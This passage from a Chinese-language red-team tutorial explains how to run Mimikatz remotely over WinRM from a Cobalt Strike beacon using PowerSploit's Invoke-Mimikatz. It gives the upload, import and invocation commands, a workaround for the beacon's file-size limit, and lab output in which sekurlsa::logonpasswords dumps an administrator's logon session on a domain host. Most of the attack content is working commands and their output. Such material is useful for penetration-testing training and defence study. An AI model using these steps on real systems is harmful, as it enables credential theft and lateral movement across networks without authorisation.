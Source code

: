 命令运行后的结果，WinRM 也将通过命令行进行显示，因此可以使用 Powershell 的 Invoke 命令来作为远程工具，而不使用其他的恶意软件来控制系统。

## 5、通过 WinRM 运行 Mimikatz

更进一步，甚至可以使用 PowerSploit 来通过 WinRM 运行 Mimikatz，只需要先导入 Invoke-Mimikatz.ps1 文件，再执行以下命令即可。

```powershell
powershell-import /path/to/Invoke-Mimikatz.ps1
powershell Invoke-Mimikatz -ComputerName TARGET
```

> 注：之前提了很多次的 PowerView 也是 PowerSploit 项目里众多 ps1 文件之一，Mimikatz 的 ps1 文件在 PowerSploit 项目的 Exfiltration 目录下，PowerSploit 项目下载地址：[https://github.com/PowerShellMafia/PowerSploit/](https://github.com/PowerShellMafia/PowerSploit/)

因为 beacon 上传文件大小限制在1MB，而 Invoke-Mimikatz.ps1 文件大小在 2 MB 多，因此直接运行 `powershell-import` 导入该文件会报错，这里可以选择使用 beacon 中的 upload 命令或者在当前会话的 File Browser 图形界面中上传该文件。

```powershell
upload C:\path\Invoke-Mimikatz.ps1
```

上传之后通过 dir 命令可以查看到文件被上传到了C盘下，之后可以运行以下命令来导入该文件。

```powershell
powershell import-module C:\Invoke-Mimikatz.ps1
```

最后再运行以下命令就能通过 WinRM 执行 Mimikatz 了。

```powershell
powershell Invoke-Mimikatz -ComputerName TARGET
```

如果提示`无法将“Invoke-Mimikatz”项识别为 cmdlet、函数……`，则可以将两条命令以分号合并在一起运行，即：

```
powershell import-module C:\Invoke-Mimikatz.ps1 ; Invoke-Mimikatz -ComputerName TARGET
```

```powershell
beacon> powershell import-module C:\Invoke-Mimikatz.ps1 ; Invoke-Mimikatz -ComputerName WIN-P2AASSD1AF1
[*] Tasked beacon to run: import-module C:\Invoke-Mimikatz.ps1 ; Invoke-Mimikatz -ComputerName WIN-P2AASSD1AF1
[+] host called home, sent: 287 bytes
[+] received output:

  .#####.   mimikatz 2.1 (x64) built on Nov 10 2016 15:31:14
 .## ^ ##.  "A La Vie, A L'Amour"
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                     with 20 modules * * */

mimikatz(powershell) # sekurlsa::logonpasswords

Authentication Id : 0 ; 314628 (00000000:0004cd04)
Session           : Interactive from 1
User Name         : administrator
Domain            : TEAMSSIX
Logon Server      : WIN-P2AASSD1AF1
Logon Time        : 2020/8/20 23:53:08
SID               : S-1-5-22-3301978333-983314215-684642015-500
	msv :	
	 [00000003] Primary
	 * Username : Administrator
……内容过多，余下部分省略……
```
